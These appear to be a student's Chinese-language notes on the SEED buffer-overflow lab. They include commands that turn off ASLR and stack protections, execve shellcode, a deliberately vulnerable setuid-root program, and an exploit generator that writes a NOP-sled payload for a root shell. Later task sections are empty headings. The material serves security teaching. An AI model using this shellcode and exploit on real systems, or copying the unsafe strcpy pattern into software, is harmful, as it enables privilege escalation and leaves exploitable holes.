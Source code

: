 # Buffer-Overflow Vulnerability Lab

缓冲溢出

[实验指导](https://seedsecuritylabs.org/Labs_16.04/PDF/Buffer_Overflow.pdf)

## 实验任务

### Turning Off Countermeasures

关闭相关的防御机制

#### Address Space Randomization 
系统自带的地址空间随机化的机制. 

``` sh
sudo sysctl -w kernel.randomize_va_space=0
```

#### The StackGuard Protection Scheme

编译 C 文件的时候让 GCC 关闭栈保护
``` sh
gcc -fno-stack-protector example.c
```

#### Non-Executable Stack
不可执行栈. 

[参考](https://blog.csdn.net/zither/article/details/443603)


#### Configuring /bin/sh (Ubuntu 16.04 VM only)

### T1 Running Shellcode

体验一下 shellcode

代码 *task1.c*
``` C
#include <stdio.h> 
#include <unistd.h>
int main() {
    char *name[2];
    name[0] = "/bin/sh";
    name[1] = NULL; 
    execve(name[0], name, NULL);
}
```

代码 *call_shellcode.c* 是 *task1.c* 的汇编版本. 
``` C
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

const char code[] =
    "\x31\xc0"             /* xorl    %eax,%eax              */
    "\x50"                 /* pushl   %eax                   */
    "\x68""//sh"           /* pushl   $0x68732f2f            */
    "\x68""/bin"           /* pushl   $0x6e69622f            */
    "\x89\xe3"             /* movl    %esp,%ebx              */
    "\x50"                 /* pushl   %eax                   */
    "\x53"                 /* pushl   %ebx                   */
    "\x89\xe1"             /* movl    %esp,%ecx              */
    "\x99"                 /* cdq                            */
    "\xb0\x0b"             /* movb    $0x0b,%al              */
    "\xcd\x80"             /* int     $0x80                  */
;

int main(int argc, char **argv) {
    char buf[sizeof(code)];
    // 为什么不直接使用 code? 
    strcpy(buf, code);
    // 这啥啊 ?
    ((void(*)( )) buf)( );
} 
```

::: tip

指导中给出的 *call_shellcode.c* 没有引入 string.h, *task1.c* 没有引入 unistd.h. 
:::

``` shell
gcc -z execstack -o call_shellcode call_shellcode.c
# or
gcc -z execstack -o task1 task1.c
```

这一步执行完毕后会起一个新的 shell, 一个孤孤单单的 `$`. 

### The Vulnerable Program

*stack.c* 
``` C
/* Vunlerable program: stack.c */
/* You can get this program from the lab's website */

#include <stdlib.h>
#include <stdio.h>
#include <string.h>

#ifndef BUF_SIZE
#define BUF_SIZE 24
#endif

int bof(char *str) {
    char buffer[BUF_SIZE];
    // buffer 只有 24B, 而 str 有 517B, 创造溢出. 
    strcpy(buffer, str);       
    return 1;
}

int main(int argc, char **argv) {
    char str[517];
    FILE *badfile;

     /* Change the size of the dummy array to randomize the parameters
       for this lab. Need to use the array at least once */
    char dummy[BUF_SIZE];  
    memset(dummy, 0, BUF_SIZE);

    badfile = fopen("badfile", "r");
    // 从 badfile 文件中读取 517B 内容, 并交给 bof 方法. 
    fread(str, sizeof(char), 517, badfile);
    bof(str);
    printf("Returned Properly\n");
    return 1;
}
```

编译 *stack.c* 并修改文件用户与访问权限. 
``` sh
gcc -DBUF_SIZE=24 -o stack -z execstack -fno-stack-protector stack.c
sudo chown root stack
sudo chmod 4755 stack
```


### T2 Exploiting the Vulnerability

这个任务在 *exploit.c* 中修改 buff, 添加合适的内容, 并写入 badfile 中. 这之后运行 *stack.c*, 如果一切正常, 可以得到一个 root shell. 

*exploit.c*
``` C
/* exploit.c  */

/* A program that creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
char shellcode[]=
    "\x31\xc0"             /* xorl    %eax,%eax              */
    "\x50"                 /* pushl   %eax                   */
    "\x68""//sh"           /* pushl   $0x68732f2f            */
    "\x68""/bin"           /* pushl   $0x6e69622f            */
    "\x89\xe3"             /* movl    %esp,%ebx              */
    "\x50"                 /* pushl   %eax                   */
    "\x53"                 /* pushl   %ebx                   */
    "\x89\xe1"             /* movl    %esp,%ecx              */
    "\x99"                 /* cdq                            */
    "\xb0\x0b"             /* movb    $0x0b,%al              */
    "\xcd\x80"             /* int     $0x80                  */
;

void main(int argc, char **argv) {
    char buffer[517];
    FILE *badfile;

    /* Initialize buffer with 0x90 (NOP instruction) */
    memset(&buffer, 0x90, 517);

    /* You need to fill the buffer with appropriate contents here */ 
    strcpy(buffer+100,shellcode);
    strcpy(buffer+0x24,"\xbb\xf1\xff\xbf");

    /* Save the contents to the file "badfile" */
    badfile = fopen("./badfile", "w");
    fwrite(buffer, 517, 1, badfile);
    fclose(badfile);
}

```

stack.c 中存在缓冲溢出的情况, 


important 中的信息很重要. 

### T3 Defeating dash’s Countermeasure

### T4 Defeating Address Randomization

### T5 Turn on the StackGuard Protection

### T6 Turn on the Non-executable Stack Protection


